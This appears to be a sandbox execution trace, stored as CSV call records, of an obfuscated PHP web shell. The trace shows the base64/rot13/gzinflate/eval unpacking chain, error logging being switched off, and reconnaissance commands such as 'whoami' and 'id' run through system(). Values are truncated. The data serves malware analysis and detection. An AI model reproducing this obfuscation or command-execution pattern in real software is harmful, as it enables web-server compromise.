

Data behind this chart, as committed beside it:
uuid, file_md5, index, source, target, argc, argv, return, dynamic
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 0, __main__, zend_compile_file, 2, {"value": []}, {"value": "53433C2E39503B423C6A3D3A342E4…, []
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 1, __main__, extract, 1, {"value": [[0, "arg", []]]}, {"value": 0}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 2, __main__, ini_set, 2, {"value": [[0, "varname", "output_buffer…, {"value": "void"}, [0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 3, __main__, ini_set, 2, {"value": [[0, "varname", "display_error…, {"value": "void"}, [0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 4, __main__, base64_decode, 1, {"value": [[0, "str", "7b17e9pVsjj8auZs5…, {"value": "\\xed\\xbd{{\\xdaU\\xb28\\xfc…, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 5, __main__, str_rot13, 1, {"value": [[0, "str", "\\xed\\xbd{{\\xda…, {"value": "\\xed\\xbd{{\\xdaH\\xb28\\xfc…, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 6, __main__, gzinflate, 1, {"value": [[0, "data", "\\xed\\xbd{{\\xd…, {"value": "$pbybe = \"#00ss00\"; \r\n$qr…, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 7, __main__, str_rot13, 1, {"value": [[0, "str", "$pbybe = \"#00ss0…, {"value": "$color = \"#00ff00\"; \r\n$de…, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 8, __main__, eval, 1, {"value": [[0, "phpcode", "$color = \"#0…, {"value": "void"}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 9, eval, zend_compile_string, 2, {"value": [[0, "source_string", "$color …, {"value": "26263941413C3A505142413C102B4…, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 10, eval, define, 2, {"value": [[0, "constant_name", "SELF_PA…, {"value": "void"}, [0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 11, eval, zend_fetch_r_server, 1, {"value": [[0, "op1", "_SERVER"]]}, {"value": []}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 12, eval, strpos, 2, {"value": [[0, "haystack", "python-reque…, {"value": false}, [135, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 13, eval, session_start, 0, {"value": []}, {"value": "void"}, []
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 14, eval, error_reporting, 1, {"value": [[0, "new_error_level", 0]]}, {"value": "void"}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 15, eval, ini_set, 2, {"value": [[0, "varname", "error_log"], …, {"value": "void"}, [0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 16, eval, ini_set, 2, {"value": [[0, "varname", "log_errors"],…, {"value": "void"}, [0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 17, eval, ini_set, 2, {"value": [[0, "varname", "max_execution…, {"value": "void"}, [0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 18, eval, ini_set, 2, {"value": [[0, "varname", "output_buffer…, {"value": "void"}, [0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 19, eval, ini_set, 2, {"value": [[0, "varname", "display_error…, {"value": "void"}, [0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 20, eval, set_time_limit, 1, {"value": [[0, "seconds", 0]]}, {"value": "void"}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 21, eval, set_magic_quotes_runtime, 1, {"value": [[0, "new_setting", 0]]}, {"value": "void"}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 22, eval, define, 2, {"value": [[0, "constant_name", "VERSION…, {"value": "void"}, [0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 23, eval, get_magic_quotes_gpc, 0, {"value": []}, {"value": false}, []
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 24, eval, zend_fetch_r_server, 1, {"value": [[0, "op1", "_SERVER"]]}, {"value": []}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 25, eval, md5, 1, {"value": [[0, "str", "127.0.0.1:5001"]]…, {"value": "e73eb7edc6b16f4bfdbfe7bd78f9a…, [135]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 26, eval, zend_fetch_r_server, 1, {"value": [[0, "op1", "_SERVER"]]}, {"value": []}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 27, eval, md5, 1, {"value": [[0, "str", "127.0.0.1:5001"]]…, {"value": "e73eb7edc6b16f4bfdbfe7bd78f9a…, [135]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 28, eval, ini_set, 2, {"value": [[0, "varname", "log_errors"],…, {"value": "void"}, [0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 29, eval, ini_set, 2, {"value": [[0, "varname", "output_buffer…, {"value": "void"}, [0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 30, eval, getenv, 1, {"value": [[0, "varname", "SERVER_SOFTWA…, {"value": "nginx/1.16.1"}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 31, eval, ini_get, 1, {"value": [[0, "varname", "safe_mode"]]}, {"value": false}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 32, eval, ini_get, 1, {"value": [[0, "varname", "safe_mode"]]}, {"value": false}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 33, eval, strtolower, 1, {"value": [[0, "str", false]]}, {"value": ""}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 34, eval, php_uname, 0, {"value": []}, {"value": "Linux 1c6b7c1b2c91 3.10.0-957…, []
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 35, eval, substr, 3, {"value": [[0, "str", "Linux 9b1e5fc39ff…, {"value": "Lin"}, [0, 0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 36, eval, strtolower, 1, {"value": [[0, "str", "Lin"]]}, {"value": "lin"}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 37, eval, exe, 1, {"value": [[0, "cmd", "whoami"]]}, {"value": "www-data\n"}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 38, exe, function_exists, 1, {"value": [[0, "function_name", "system"…, {"value": true}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 39, exe, ob_start, 0, {"value": []}, {"value": "void"}, []
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 40, exe, system, 1, {"value": [[0, "command", "whoami"]]}, {"value": "void"}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 41, exe, ob_get_contents, 0, {"value": []}, {"value": "www-data\n"}, []
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 42, exe, ob_end_clean, 0, {"value": []}, {"value": "void"}, []
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 43, eval, rapih, 1, {"value": [[0, "text", "www-data\n"]]}, {"value": "www-data"}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 44, rapih, str_replace, 3, {"value": [[0, "search", "<br />"], [1, …, {"value": "www-data\n"}, [0, 0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 45, rapih, trim, 1, {"value": [[0, "str", "www-data\n"]]}, {"value": "www-data"}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 46, eval, exe, 1, {"value": [[0, "cmd", "id"]]}, {"value": "uid=1000(www-data) gid=1000(w…, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 47, exe, function_exists, 1, {"value": [[0, "function_name", "system"…, {"value": true}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 48, exe, ob_start, 0, {"value": []}, {"value": "void"}, []
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 49, exe, system, 1, {"value": [[0, "command", "id"]]}, {"value": "void"}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 50, exe, ob_get_contents, 0, {"value": []}, {"value": "uid=1000(www-data) gid=1000(w…, []
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 51, exe, ob_end_clean, 0, {"value": []}, {"value": "void"}, []
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 52, eval, rapih, 1, {"value": [[0, "text", "uid=1000(www-dat…, {"value": "uid=1000(www-data) gid=1000(w…, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 53, rapih, str_replace, 3, {"value": [[0, "search", "<br />"], [1, …, {"value": "uid=1000(www-data) gid=1000(w…, [0, 0, 0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 54, rapih, trim, 1, {"value": [[0, "str", "uid=1000(www-data…, {"value": "uid=1000(www-data) gid=1000(w…, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 55, eval, getcwd, 0, {"value": []}, {"value": "/usr/share/nginx/html"}, []
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 56, eval, function_exists, 1, {"value": [[0, "function_name", "posix_g…, {"value": true}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 57, eval, function_exists, 1, {"value": [[0, "function_name", "posix_g…, {"value": true}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 58, eval, zend_fetch_r_server, 1, {"value": [[0, "op1", "_SERVER"]]}, {"value": []}, [0]
4227ef8cd2a7833c9dfcbdc0b9cfc69a, 56ad0c552c07100fc158af0e8aa58bef, 59, eval, gethostbyname, 1, {"value": [[0, "hostname", "127.0.0.1:50…, {"value": "127.0.0.1:5001"}, [135]
... 329 more rows
